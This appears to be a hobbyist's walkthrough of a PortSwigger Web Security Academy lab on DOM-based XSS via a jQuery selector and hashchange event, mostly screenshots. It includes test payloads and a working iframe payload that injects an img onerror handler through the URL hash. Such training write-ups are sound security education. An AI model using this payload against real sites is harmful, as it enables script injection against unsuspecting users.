 ## Welcome, my friend. Today we will start the [7. XSS lab](https://portswigger.net/web-security/cross-site-scripting/dom-based/lab-jquery-selector-hash-change-event) in ```portswigger```
### Let's play this lab:

![image](https://github.com/user-attachments/assets/c45f3b88-a732-4b59-9f71-0465e5a2a410)

#### First, we navigate inside the browser

![image](https://github.com/user-attachments/assets/7fc3ddec-d20f-4e42-befa-20173e9f0f8b)

### Let's navigate ```Go to exploit server```:

![image](https://github.com/user-attachments/assets/6f3dbc1d-9e46-44a6-bf48-8b488bf2f0e0)

### Enter ```View exploit```:

![image](https://github.com/user-attachments/assets/e314d2d9-47cf-4632-9b98-460254e8060b)

### Let's enter html code in body:

```
<h1>hi</h1> <h5>0xT0R</h5>
```

![image](https://github.com/user-attachments/assets/95782d63-e034-4e8a-bbc6-87c286402020)

### Enter ```View exploit```:


![image](https://github.com/user-attachments/assets/b5ac0025-638c-43e0-9157-17845cefbaa1)


### Let's enter ```javascript``` code in body:

```
<script>alert(0)</script>
```

![image](https://github.com/user-attachments/assets/6a989dd0-9a29-4bbf-91ae-dfd8668ae605)



### Let's enter ```javascript``` code in body but this code don't need to useraction:


```
<iframe src="https://0acc008b038f78ee88f91432009f001c.web-security-academy.net/#" onload="this.src+='<img src=x onerror=print()>'"></iframe>
```


![image](https://github.com/user-attachments/assets/b6f95238-0f94-4bfc-be24-64be13e460ab)


-------

### Done! Congratulations, friends❤️‍🔥


<p align="center">
<img src="https://github.com/user-attachments/assets/284ebebd-da4f-4c2a-bcb2-04eb0ef8a878" >
</p>

















